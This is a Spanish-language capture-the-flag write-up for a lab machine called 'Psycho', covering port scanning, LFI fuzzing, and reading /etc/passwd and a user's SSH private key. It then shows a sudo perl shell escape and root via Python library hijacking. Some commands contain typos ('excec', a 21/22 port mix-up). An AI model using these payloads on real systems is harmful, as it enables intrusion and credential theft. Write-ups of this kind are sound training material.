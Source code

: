 ### Informe de máquina *"Psycho"*

![Máquina Psycho](./screenshots/01_machine.png)

Vamos a realizar la maquina "Psycho", como siempre vamos a empezar asignando permisos de ejecución al archivo `auto_deploy.sh` eh inicializamos la maquina con `sudo ./autodeploy ` `psycho.tar`

![Permisos ejecución deploy](./screenshots/02_permisos_auto_deploy.png)
![Inicialización máquina](./screenshots/03_inicio_maquina.png)

Realizamos un testeo de conexión con el comando `ping`.

![Test de conexión](./screenshots/04_test_conexion.png)

Ahora realizamos un escaneo de puertos abiertos con la herramienta `nmap`, el comando usado fue:

```bash
nmap -sS --min-rate 5000 -p- -vvv -Pn -n 172.17.0.2 -oG nmap
```

- `nmap` → Comando para ejecutar herramienta nmap.
- `-sS` → Escaneo SYN ("Stealth Scan"). Envía paquetes SYN sin completar la conexión TCP (más rápido y sigiloso que -sT).
- `--min-rate 5000` → Fuerza a nmap a enviar al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-p-` → Escanea todos los 65535 puertos (en lugar de solo los más comunes).
- `-vvv` → Modo muy detallado (muestra más información en pantalla mientras se ejecuta).
- `-Pn` → No realiza detección de host (asume que el host está activo y no envía ping previo).
- `-n` → No resuelve nombres de dominio (evita consultas DNS, lo que acelera el escaneo).
- `172.17.0.2` → IP objetivo a escanear.
- `-oG nmap` → Guarda los resultados en formato "greppable" en un archivo llamado nmap.

![Escaneo con nmap](./screenshots/05_escaneo_nmap.png)


Identificamos que la máquina tiene el puerto 22 y el puerto 80 abiertos, usamos de nuevo la herramienta `nmap` para obtener más detalle de estos mismos.
El comando usado fué:

```bash
nmap -p21,80 -sC -sV -O 172.17.0.2
```

`nmap` → Ejecuta la herramienta de escaneo de red Nmap.

`-p21,80` → Especifica los puertos que queremos escanear. En este caso 21 y 80.

`-sC` → Ejecuta scripts de detección predeterminados

`-sV` → Detección de versiones de servicios.

`-O` → Detección del sistema operativo.

`172.17.0.2` → Especifica la dirección IP del objetivo a escanear.

![Detalle puertos 22 y 80](./screenshots/06_escaneo_puertos_22_80.png)

De momento parece que no encontramos versiones vulnerables, continuemos con un chequeo de la página web

![Página web](./screenshots/07_pagina_web.png)
![Código fuente página web](./screenshots/08_codigo_fuente.png)

Encontramos el nombre de un posible usuario que podria ser "tluisillo" o "luisillo", Es curioso pero al final del código fuente se encuentra un mensaje de error.

Por ahora revisemos su encontramos más páginas o directorios con un ataque de fuzzing.

![Fuzzing páginas y directorios web](./screenshots/09_fuzzing_web.png)

Se encontró un directorio llamado `assets` dentro de este se encontró una imagen llamada "background.jpg", se revisó los metadatos de la misma pero no se entonctró mucha más información.

Al tratarse de un archivo `.php` se procede a intentar un ataque de LFI (Local File Inclusion), que consiste en realizar un llamado de archivos locales para ser visualizados en el navegador.
Procedemos a realizar un ataque de fuzzing con la herramienta `wfuzz` con el siguiente comando:

```bash
wfuzz -c --hl=62 -w /usr/share/worldlists/dirb/common.txt 'http://172.17.0.2/index.php?FUZZ=/etc/passwd'

```

- `wfuzz`	Herramienta de fuzzing 
- `-c`	Activa la salida en color, facilitando la visualización de los resultados.
- `--hl=62`	Oculta respuestas cuyo tamaño es 62 líneas, evitando ruido en la salida. (Evitar consultas con error 404)
- `-w` /usr/share/worldlists/dirb/common.txt	Especifica el diccionario a usar en el fuzzing.
- `'http://172.17.0.2/index.php?FUZZ=/etc/passwd'`	Indica la URL objetivo, donde la palabra clave FUZZ será reemplazada por las palabras del diccionario.

![Fuzzing LFI página web](./screenshots/10_fuzzing_LFI.png)

Se ha encontrado la palabra "secret", es decir haciendo llamado a esta variable la podemos asignar el valor de un archivo interno del servidor como  `/etc/passwd` donde podemos identificar ususarios en el servidor.

```
172.17.0.2/index.php?secret=/etc/passwd
```

![Visualizar usuarios en passwd](./screenshots/11_show_passwd.png)

En código fuente de la página se puede ver con mejor detalle el contenido del archivo, de esta consulta se pudo encontrar 2 usuarios con permisos a shell fuera de root, "luisillo" y "vaxei".
Lo que podemos hacer es ver si encontramos la llave privada ssh de alguno de estos usuarios.
Se intento con luisillo pero sinexito.
Pero se encontró la llave del usuario vaxei

```
172.17.0.2/index.php?secret=/home/vaxei/.ssh/id_rsa
```

![Encontrar llave privada usuario vaxei](./screenshots/12_show_id_rsa_vaxei.png)


Creamos un nuevo archivo llamado `key` donde guardaremos esta llave presisamente.

![Guardar llave](./screenshots/13_save_key.png)

Para logeranos como un usuario haciendo uso de la llave ejecutamos el siguiente comando:

```bash
ssh -i key vaxei@172.17.0.2
```

![Logearse como vaxei](./screenshots/14_login_as_vaxei.png)

Una vez logueados, revisamos que comandos podemos usar con altos privilegios, vemos que podemos usar `perl` bajo los permisos de usuario `luisillo`
Realizamos una busqueda en [GTFOBins](https://gtfobins.github.io/) de como ejecutar una shell con perl

![Busqueda acceso a sheel con perl](./screenshots/15_shell_perl.png)

Lo ejecutamos con la salvedad que al momento de ejecutar el comando sudo, buscamos los permisos del usuario luisillo, por eso ejectamos el comándo de la siguiente manera:

```bash
sudo -u luisillo perl -e 'excec "/bin/bash/";'
```

![Acceso como luisillo](./screenshots/16_loging_as_luisillo.png)

Una vez con la terminal con los permisos de luisillo, realizamos una busqueda de los permisos sudo que posee este usuario.

Se observa que puede podemos ejecutar el comando `python3` con permisos de superusuario, pero con la salvedad que solo lo podemos hacer con el archivo /opt/paw.py.

Pero es un archivo que no podemos editar, pero si lo podemos visualizar.

Observamos que este archivo hace un llamado a unas librerias, una de ellas `subprocess.py`. *Se puede realizar con las otras librerias támbien*

Python realiza una busqueda de estos archivos en una primera instancia en el directorio donde se encuentra el archivo python que le hace este llamado; es decir, si creamos un archivo con el mismo nombre de una de estas librerias en el mismo directorio, Python hará llamado primero a nuestro archivo antes que al de la libreria.

Primero buscamos en [GTFOBins](https://gtfobins.github.io/) como ejecutar una shell con Python.

![Busqueda shell con python](./screenshots/17_find_shell_python.png)

Ahora si, ubicados en la carpeta /opt creamos el archivo subprocess.py con el comando:

```bash
touch subprocess.py
```

Ahora para escribir dentro de este ejecutamos el comando:

```bash
echo "import os; os.system('/bin/bash')" > subprocess.py
```

Perfecto ahora ejecutemos el archivo `/opt/paw.py` con permisos `sudo` y al momento que haga el llamado a la librería subprocess.py se ejecutará nuestro código.

```bash
sudo python3 /opt/paw.py
```

![Acceso como root](./screenshots/18_root.png)
